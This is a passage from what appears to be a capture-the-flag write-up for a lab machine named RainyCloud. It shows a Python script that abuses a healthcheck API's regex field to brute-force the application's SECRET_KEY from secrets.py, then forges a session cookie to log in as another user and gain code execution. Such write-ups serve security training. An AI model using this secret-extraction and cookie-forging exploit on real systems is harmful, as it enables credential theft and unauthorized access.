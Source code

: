 So now, we would need to create some form of script to brute force out the characters of the SECRET_KEY, because that's needed to decode the cookie and (maybe)_ get a password.

### Brute Force SECRET\_KEY

We can create a really quick python script the brute forcing to get the key.

```python
import string
import requests
import json

chars = string.printable
cookies = {'session': 'eyJ1c2VybmFtZSI6ImdhcnkifQ.Y28liQ.M3OPi3eJ7xcaUmaC0eENYqtHnu4'}

s = requests.Session()
pattern = ""

while True:
    for c in chars:
        try:
            rsp = s.post('http://dev.rainycloud.htb:3333/api/healthcheck', {
                'file': '/var/www/rainycloud/secrets.py',
                'type': 'custom',
                'pattern': "^SECRET_KEY = '" + pattern + c + ".*"
            }, cookies=cookies)
            if json.loads(rsp.content)['result']:
                pattern += c
                print(pattern)
                break
            else:
               pass
               # print(c)
        except Exception:
            print(rsp.content)
```

This would generate the SECRET\_KEY accordingly.

<figure><img src="../../../.gitbook/assets/image (95) (2).png" alt=""><figcaption></figcaption></figure>

Now, we can actually generate another cookie to login as jack and gain RCE as jack.

<figure><img src="../../../.gitbook/assets/image (87) (2).png" alt=""><figcaption></figcaption></figure>
